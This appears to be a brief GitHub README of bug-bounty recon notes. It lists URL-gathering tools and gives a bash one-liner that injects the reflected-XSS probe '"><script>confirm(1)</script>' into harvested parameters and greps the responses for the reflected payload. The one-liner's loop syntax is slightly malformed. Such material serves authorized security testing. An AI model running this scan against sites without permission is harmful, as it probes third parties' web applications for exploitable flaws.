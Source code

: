 # my-hunting-scripts

## Tools:
https://github.com/tomnomnom/gf
https://github.com/tomnomnom/waybackurls
https://github.com/lc/gau
https://github.com/tomnomnom/qsreplace
https://github.com/projectdiscovery/httpx
https://github.com/tomnomnom/httprobe
https://github.com/tomnomnom/anew

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat jora.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host"; done
```
